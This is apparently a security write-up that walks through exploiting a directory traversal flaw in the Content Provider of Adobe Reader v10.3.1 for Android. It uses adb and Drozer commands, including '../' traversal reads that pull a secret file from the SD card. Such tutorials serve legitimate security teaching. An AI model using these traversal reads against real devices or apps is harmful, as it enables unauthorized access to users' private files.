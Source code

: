 # Content Provider File Traversal Vulnerability For Android
## DESCRIPTION

The Content Provider class provides a mechanism for managing and sharing data with other applications. When sharing a provider’s data with other apps, access control should be carefully implemented to prohibit unauthorized access to sensitive data. Successful exploitation could lead to information disclosure.

## PREREQUISITES

1. Adobe reader v10.3.1 for android

2. adb(Android debug bridge)

3. Drozer app for android

## EXPLOITATION

The following test has been done on Adobe Reader v10.3.1.

Install Adobe Reader in Genymotion/Android device

$ adb install [AdobeReader.apk]

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/1.jpg)

Install and open the Drozer app

Turn ON the Embedded Server to establish connection.

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/2.png)

Establish a connection with Drozer app

$ adb connect [ip address of emulator or device]

$ adb forward tcp:31415 tcp:31415

$ drozer console connect

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/3.png)

dz> run app.package.list

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/4.png)

To see what components of the app are exported

dz> run app.package.attacksurface com.adobe.reader

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/5.png)

dz> run app.provider.finduri com.adobe.reader

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/6.png)

Try running the read command as shown below

dz> run app.provider.read content://com.adobe.reader.fileprovider/

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/7.png)

The command above fails to read the content. Start adding some backtrack directory traversals(../) till the root is reached.

dz> run app.provider.read content://com.adobe.reader.fileprovider/../mnt/sdcard/secret.txt

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/8.png)

However, adding some more backtrack directory traversals (../) as shown below, the root is reached and the reading process is successful.

dz> run app.provider.read content://com.adobe.reader.fileprovider/../../../../mnt/sdcard/secret.txt

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/9.png)

The secret is found which was stored in the SD card. Observing the permissions provided to Adobe Reader and Drozer as shown below

dz> run app.package.info -f adobe

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/10.png)

dz> run app.package.info -f drozer

![](https://github.com/v1ns3c/Write-ups/blob/25cafe56ff5b60d74b9b1877cfd35e80cbd9ced8/Images/Documentations/Content_Provider_File_Traversal_Vulnerability_For_Android/11.png)

So, it is important to notice that the attack has been successful due to the vulnerability of the Adobe Reader application, having the permission READ_EXTERNAL_STORAGE, as seen above. In other words, the Adobe Reader can read files from the SD card, but Drozer cannot.

### Thanks for reading!
